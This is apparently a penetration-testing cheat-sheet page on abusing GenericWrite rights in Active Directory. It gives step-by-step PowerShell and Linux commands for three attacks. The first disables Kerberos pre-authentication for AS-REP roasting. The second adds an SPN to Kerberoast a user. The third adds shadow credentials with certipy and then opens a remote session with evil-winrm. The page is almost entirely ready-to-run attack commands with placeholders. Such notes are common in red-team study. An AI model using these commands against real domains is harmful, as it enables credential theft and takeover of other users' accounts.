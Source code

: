 ```yaml
---
title: "GenericWrite"
date: 2024-7-13
tags: ["GenericWrite", "active driectory", "ad", "Windows"]
---
```


---
### Abuse #1 : Add UF_DONT_REQUIRE_PREAUTH bit to target user

#### 1. Import PowerView.ps1 

```powershell
. .\PowerView.ps1
```

#### 2. Check target user

```powershell
Get-DomainUser <TARGET_USER> | ConvertFrom-UACValue
```

#### 3. Add UF_DONT_REQUIRE_PREAUTH bit

```powershell
Set-DomainObject -Identity <TARGET_USER> -XOR @{useraccountcontrol=4194304} -Verbose
```

#### 4. AS-REP Roasting

```bash
# In local linux machine
impacket-GetNPUsers <DOMAIN>/<USER> -no-pass -dc-ip <DC>
```

### Abuse #2 : Kerberoasting by adding spn

#### 1. Import PowerView.ps1 

```powershell
. .\PowerView.ps1
```

#### 2. Create cred object (runas) \[optional\]

```powershell
$username = "<DOMAIN>\<USER>"
```

```powershell
$password = ConvertTo-SecureString <PASSWORD> -AsPlainText -Force
```

```powershell
$cred = new-object -typename System.Management.Automation.PSCredential -argumentlist $username, $password
```

#### 3. Add SPN

```powershell
# Add spn (e.g. MSSQL)
setspn -a MSSQLSvc/example.com:1433 <DOMAIN>\<TARGET_USER>
```

```powershell
# Check
Get-DomainUser <TARGET_USER> | Select serviceprincipalname
```

#### 4. Get SPN

```powershell
Get-DomainSPNTicket -SPN "MSSQLSvc/example.com:1433" -Credential $Cred
```

### Abuse #3: Add shadow credentials (From Linux)

```bash
# Request a ticket
kinit <USER>
```

```bash
# Import ticket
export KRB5CCNAME=/tmp/krb5cc_1000
```

```bash
# Pre-check (Optional)
certipy-ad find -username <USER>@<DOMAIN> -k -target <TARGET_DOMAIN>
```

```bash
# Add shadow credentials
certipy-ad shadow auto -username <USER>@<DOMAIN> -account <TARGET_USER> -k -target <TARGET_DOMAIN>
```

```bash
# Remote with kerberos
KRB5CCNAME=./<TARGET_USER>.ccache evil-winrm -i <TARGET_DOMAIN> -r <DOMAIN>
```

<br>